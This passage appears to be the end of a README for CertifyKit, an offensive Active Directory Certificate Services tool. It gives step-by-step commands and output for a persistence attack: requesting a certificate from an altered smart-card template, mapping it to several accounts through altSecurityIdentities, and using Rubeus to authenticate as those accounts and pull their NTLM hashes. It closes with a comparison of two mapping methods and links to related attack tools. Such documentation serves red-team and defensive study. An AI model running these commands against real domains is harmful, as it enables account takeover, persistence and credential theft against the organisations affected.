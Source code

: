 Request a certificate for persistence attack (Alter the template to smart card template and leave the `subjectAltName` blank)

```
C:\> .\CertifyKit.exe request /ca:corpadcs.corp.local\corp-CORPADCS-CA-1 /template:AnyTemplate /alter /install

C:\>.\CertifyKit.exe list
CertifyKit (Hagrid29 version of Certify)
More info: https://github.com/Hagrid29/CertifyKit/

[*] Action: List Certificates

  Location           : My, CurrentUser
  Issuer             : CN=corp-CORPADCS-CA-1, DC=corp, DC=local
  HasPrivateKey      : True
  KeyExportable      : True
  Thumbprint         : F5EE8B01C33DDF4161E554DD2FB7ED63503FEF12
  EnhancedKeyUsages  :
       Client Authentication     [!] Certificate can be used for client authentication!
       Smart Card Logon     [!] Certificate can be used for client authentication!
  SubjectAltName     :
```

Map the certificate to multiple user

```
C:\>.\CertifyKit.exe account /machine:testpc /altsecid /certificate:F5EE8B01C33DDF4161E554DD2FB7ED63503FEF12
C:\>.\CertifyKit.exe account /user:user02 /altsecid /certificate:F5EE8B01C33DDF4161E554DD2FB7ED63503FEF12
```

Authenticate as multiple users with a single certificate, and steal NTLM hash

```
C:\>.\Rubeus.exe asktgt /user:testpc /certificate:F5EE8B01C33DDF4161E554DD2FB7ED63503FEF12 /getcredentials
C:\>.\Rubeus.exe asktgt /user:user02 /certificate:F5EE8B01C33DDF4161E554DD2FB7ED63503FEF12 /getcredentials
```

##### Comparing `/shadow` and `/altsecid`

- `/altsecid` require CA signed cert, while `/shadow` cert can be self sign

- `/altsecid` cert could be revoked, while `/shadow` self sign cert could not be revoked

- `/altsecid` can map to multiple account, while `/shadow` cert can only map to signal account

## References

* https://github.com/GhostPack/Certify
* https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6
* https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7
* https://github.com/cfalta/PoshADCS
* https://github.com/eladshamir/Whisker
* https://github.com/Kevin-Robertson/Powermad
* https://github.com/TheWover/CertStealer
